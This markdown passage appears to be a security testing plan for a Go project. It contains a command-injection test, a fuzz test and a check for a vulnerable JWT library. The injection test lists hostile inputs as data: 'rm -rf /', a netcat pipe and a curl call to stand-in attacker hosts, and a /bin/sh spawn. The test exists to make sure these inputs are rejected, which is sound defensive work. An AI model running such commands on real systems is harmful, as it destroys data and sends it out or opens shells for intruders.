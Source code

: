 
## Security Testing Strategy

### **Required Security Tests**

#### 1. **Penetration Testing Scenarios**
```go
func TestCommandInjectionPrevention(t *testing.T) {
    maliciousInputs := []string{
        "status; rm -rf /",
        "status | nc attacker.com 4444",
        "status && curl evil.com/steal",
        "status || /bin/sh",
    }
    
    for _, input := range maliciousInputs {
        t.Run(fmt.Sprintf("inject-%s", input), func(t *testing.T) {
            err := taskmaster.Execute(input)
            assert.Error(t, err, "Should reject malicious input: %s", input)
        })
    }
}
```

#### 2. **Fuzzing Test Suite**
```go
func FuzzEpicDataParsing(f *testing.F) {
    f.Add(`{"epic_name": "test"}`)
    f.Fuzz(func(t *testing.T, data string) {
        defer func() {
            if r := recover(); r != nil {
                t.Errorf("Parser crashed on input: %q", data)
            }
        }()
        
        _, err := models.ParseEpicData([]byte(data))
        // Should handle malformed input gracefully
        if err != nil {
            return // Expected for malformed input
        }
    })
}
```

#### 3. **Security Regression Tests**
```go
func TestJWTLibrarySecure(t *testing.T) {
    // Ensure we're using secure JWT library
    imports := getImports()
    assert.NotContains(t, imports, "github.com/dgrijalva/jwt-go", 
        "Must not use vulnerable JWT library")
    assert.Contains(t, imports, "github.com/golang-jwt/jwt/v5",
        "Must use secure JWT library")
}
```

---